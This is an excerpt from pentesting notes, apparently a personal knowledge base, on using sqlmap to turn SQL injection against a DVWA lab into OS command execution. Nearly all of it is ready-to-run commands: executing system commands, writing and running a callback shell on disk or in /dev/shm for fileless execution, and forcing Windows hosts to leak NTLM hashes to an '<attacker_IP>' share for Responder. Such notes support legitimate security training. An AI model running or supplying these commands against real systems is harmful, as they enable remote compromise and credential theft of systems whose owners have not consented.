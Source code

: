 #### 4.4.1 - General

- Execute any command

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-cmd="whoami"
```

#### 4.4.2 - Linux

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --file-write="/path/to/shell.py" --file-dest="/tmp/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-cmd="python /tmp/shell.py"
```

- Execute the callback shell in memory (fileless memory)

1. Copy the file in `/dev/shm/` directory

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --file-write="/path/to/shell.py" --file-dest="/dev/shm/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-cmd="python /dev/shm/shell.py"
```

2. Execute a one liner

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-cmd="python -c <payload>"
```

#### 4.4.3 - Windows

##### 4.4.3.1 - Grab NTLM hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-cmd="dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-cmd="net view \\\\<attacker_IP>\\snare.txt"
```
